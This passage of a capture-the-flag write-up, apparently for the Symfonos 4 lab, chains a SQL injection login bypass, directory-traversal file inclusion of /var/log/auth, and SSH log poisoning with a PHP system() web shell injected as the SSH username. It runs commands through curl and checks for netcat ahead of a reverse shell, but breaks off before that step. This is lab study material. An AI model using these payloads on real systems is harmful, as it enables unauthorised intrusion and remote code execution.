 ```python
        else:
            print(f"{x} {p:50}", end='\r')
```

Then we run our script and we can see that the ssh log file is possible to include.

```console
root@kali:~$ python3 lfi.py
4706 /var/log/auth                                     
274347 /var/log/dpkg
```


![](/assets/images/symfonos4/screenshot-6.png)

## Exploitation
### SSH Log Poisoning

This is a technique that allows the attacker to inject malicious code into the ssh registry, keeping this in mind, we inject the system function as username, as shown below:

```console
root@kali:~$ ssh -l '<?php system($_GET[cmd]); ?>' 192.168.179.138
<?php system($_GET[cmd]); ?>@192.168.179.138's password:
```

With curl we'll try to request the ssh log but adding as parameter a system command, in this case we can see that the commad **id** is executed correctly, then we verify that netcat exists and thus obtain a reverse shell.

```console
root@kali:~$ curl -s -L -X POST -c cookies_file.txt "http://192.168.179.138/atlantis.php" --data "username=admin'+or+1%3d1+%23&password=password" 

root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=id" | html2text -width 90 | tail -2
for invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data) from 192.168.179.1
port 38056 ssh2

root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=whereis%20nc" | html2text -width 90 | tail -2 
password for invalid user nc: /usr/bin/nc.traditional /usr/bin/nc /usr/share/man/man1/
nc.1.gz from 192.168.179.1 port 38056 ssh2
```
